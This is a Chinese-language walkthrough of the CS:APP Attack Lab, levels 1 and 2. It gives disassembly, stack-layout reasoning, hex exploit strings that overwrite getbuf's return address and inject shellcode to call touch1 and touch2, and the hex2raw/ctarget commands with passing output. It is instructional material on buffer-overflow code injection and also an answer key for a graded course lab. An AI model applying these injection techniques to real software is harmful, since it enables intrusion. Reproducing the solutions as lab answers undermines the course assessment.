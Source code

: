 # Attack Lab

## 问题描述

【设定】现有两个存在 ***缓冲区溢出 (buffer overflow)*** 风险的 x86-64 可执行文件：

- `ctarget` 可能遭受 ***代码注入 (code injection)*** 攻击（对应第 1~3 关）。
- `rtarget` 可能遭受 ***ROP (return-oriented programming)*** 攻击（对应第 4~6 关）。
- [此处](http://csapp.cs.cmu.edu/3e/target1.tar)可下载这两个文件。本地运行时应开启 `-q` 选项，以避免连接评分服务器。

【任务】利用上述漏洞，植入攻击代码，改变程序行为。[此处](http://csapp.cs.cmu.edu/3e/attacklab.pdf)可下载详细说明。

## 第一关

函数 `getbuf()` 的 C 代码和汇编码分别为

```c
unsigned getbuf() {
  char buf[BUFFER_SIZE];
  Gets(buf);
  return 1;
}
```

```nasm
(gdb) disassemble getbuf 
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    rsp,0x28 ; 40
   0x00000000004017ac <+4>:     mov    rdi,rsp
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    eax,0x1
   0x00000000004017b9 <+17>:    add    rsp,0x28
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
```

由此可见：旧栈顶（即 `R[rsp]` 的旧值）位于 `&buf[0]` 后 40 字节处。在调试器中，设断点于 `<+4>` 处，检查始于 `R[rsp]+40` 的 8 字节：

```shell
(lldb) x/1gx $rsp+40
0x5561dca0: 0x0000000000401976
```

此地址值的确为调用者 `test()` 中紧跟在 `call <getbuf>` 后的下一条指令的地址：

```nasm
(gdb) disassemble test 
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    rsp,0x8
   0x000000000040196c <+4>:     mov    eax,0x0
   0x0000000000401971 <+9>:     call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    edx,eax
; ...
```

故只需将 `touch1()` 的地址 `0x00000000004017c0` 植入始于 `buf[40]` 的 8 字节，逻辑上相当于在 C 代码中植入以下赋值语句：

```c
buf[40] = 0xc0;
buf[41] = 0x17;
buf[42] = 0x40;
buf[43] = buf[44] = buf[45] = buf[46] = buf[47] = 0x00;
```

具体步骤：

1. 创建含有以下内容（前 40 个字符相对随意，避开 `0x0a` 即 `\n` 即可）的 `exploit.txt` 文件：

   ```c
   /* buf[00,10) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[10,20) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[20,30) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[30,40) */ 30 31 32 33 34 35 36 37 38 39
   c0 17 40 00 00 00 00 00 /* address of touch1() */
   ```

1. 利用 `hex2raw` 将上述文件转化为字符串：

   ```shell
   $ ./hex2raw < exploit.txt > exploit-raw.txt
   ```

1. 利用 *管道* 将 *`hex2raw` 的输出* 绑定到 *`ctarget` 的输入*：

   ```shell
   $ ./ctarget -q -i exploit-raw.txt
   ```

1. 后两步可合并为

   ```shell
   $ cat exploit.txt | ./hex2raw | ./ctarget -q
   ```

最终得以下输出
```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 C0 17 40 00 00 00 00 00 
```

## 第二关

需要植入的指令为：
```gas
# exploit.s
movl  $0x59b997fa, %edi # cookie
pushq $0x004017ec       # address of touch2()
retq
```
先汇编，再反汇编：
```shell
$ gcc -c exploit.s && objdump -d exploit.o
```
得以下输出：
```
exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   68 ec 17 40 00          pushq  $0x4017ec
   a:   c3                      retq
```

为便于调试，按每行 8 字节排列，并以 `0x90` 即 `nop` 指令占位：
```c
/* exploit.txt */
/* 0x5561dc78 */ 90 90 90 90 90 90 90 90
/* 0x5561dc80 */ bf fa 97 b9 59 /* mov  */ 90 90 90
/* 0x5561dc88 */ 68 ec 17 40 00 /* push */ 90 90 90
/* 0x5561dc90 */ c3 /* retq */ 90 90 90 90 90 90 90
/* 0x5561dc98 */ 90 90 90 90 90 90 90 90
/* 0x5561dca0 */ 78 dc 61 55 00 00 00 00 /* 0x5561dca0 - 40 */
```

```shell
$ cat exploit.txt | ./hex2raw | ./ctarget -q
```

最终得以下输出：
```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:90 90 90 90 90 90 90 90 BF FA 97 B9 59 90 90 90 68 EC 17 40 00 90 90 90 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 
```

